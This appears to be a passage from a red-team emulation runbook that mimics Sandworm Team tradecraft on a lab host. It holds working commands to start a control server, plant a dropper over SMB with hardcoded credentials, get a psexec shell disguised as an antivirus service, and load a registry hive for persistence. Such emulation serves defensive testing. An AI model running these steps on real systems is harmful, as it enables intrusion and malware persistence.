 ### :biohazard: Procedures

:warning: If you do not already have the Control Server from Step 13 running, execute the following. Otherwise, skip to the next :warning:.

Open a new terminal tab (ctrl+shift+t) and start the control server.

Double click the terminal tab to change its name. Name your terminal tab "control server" for easy identification.

```bash
cd wizard_spider/Resources/control_server && sudo ./controlServer
```

:warning: Go back to your first terminal tab (P.A.S. Webshell); re-name it "PsExec-Gammu".

Upload Exaramel-Windows-Dropper.exe to gammu/10.0.1.7 as `C:\Windows\wsmprovav.exe`.

```bash
# Sandworm Team has pushed additional malicious tools onto an infected system to steal user credentials, move laterally, and destroy data.

# Sandworm Team have used previously acquired legitimate credentials prior to attacks.

smbclient -U 'WORKGROUP\fherbert' //10.0.1.7/ADMIN$ -c "put sandworm/Resources/Exaramel-Windows-Dropper/wsmprovav.exe wsmprovav.exe;" "Whg42WbhhCE17FEzrqeJ"
```

Use psexec.py to gain a bind-shell to gammu/10.0.1.7 over SMB (TCP 445):

```bash
# Sandworm-associated malware including Olympic Destroyer, BlackEnergy, and notPetya use PsExec to interact with the ADMIN$ network share to execute commands on remote systems.

# The Exaramel for Windows dropper creates and starts a Windows service named wsmprovav with the description "Windows Check AV."

/usr/share/doc/python-impacket/examples/psexec.py -service-name "Windows Check AV" WORKGROUP/fherbert@10.0.1.7
```

Enter password:

`Whg42WbhhCE17FEzrqeJ`

:warning: Observe the PsExec binary name, and paste it in the Slack chat for easy identification:

```bash
# Your EXE name will differ

[*] Uploading file enTHfBuw.exe
```

Load the registry hive for user fherbert.

```bash
reg.exe LOAD HKU\Temp "C:\Users\fherbert\NTUSER.DAT"
```

Set registry persistence for user fherbert only.
